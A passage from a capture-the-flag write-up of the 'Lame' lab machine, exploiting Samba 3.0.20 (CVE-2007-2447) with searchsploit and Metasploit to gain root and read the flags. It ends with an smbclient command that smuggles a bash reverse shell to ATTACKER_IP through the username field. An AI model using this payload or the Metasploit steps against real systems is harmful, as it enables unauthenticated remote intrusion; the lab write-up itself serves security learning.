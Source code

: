 ```

**Links:**
1. [NIST CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
2. [exploitdb - Find the exploit here](https://www.exploit-db.com/exploits/16320)

Next step I performed is finding if the exploit is available in the Metasploit framework or searchsploit database. 

`searchsploit Samba 3.0.20`

![](images-lame/7.png)

And this gives an output that shows the exact same exploit available in metasploit framework, so this might be our ticket in. Let's explore and exploit it! I used the following commands to perform the exploit:

```
msfconsole
msf6> search Samba 3.0.20
msf6> use 0
msf6> show options
msf6> set RHOSTS 10.10.10.3
msf6> set LHOST 10.10.14.11
msf6> exploit
```

In the options, I have set *RHOSTS* to the target IP and *LHOST* to my vpn IP. It is very important to set the LHOST properly, or else you will not get the connection or reverse shell.

![](images-lame/8.png)
![](images-lame/9.png)

As you can review from the above images that we finally have achieved root access. Yay! Finally after so many dead-ends we are here now. The final demand of the machine is to get a user flag from the user makis and a root flag. So I found them using the following commands:

**makis's flag:**
```
cd /home/makis/
ls
cat user.txt
```

**root flag:**
```
cd /root
ls
cat root.txt
```


![](images-lame/10.png)

![](images-lame/11.png)

#### How this vulnerability works?

This exploits a command execution vulnerability in *Samba version 3.0.20* through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication.

`smbclient //192.168.1.100/shared_folder -U "/=nohup bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"`

```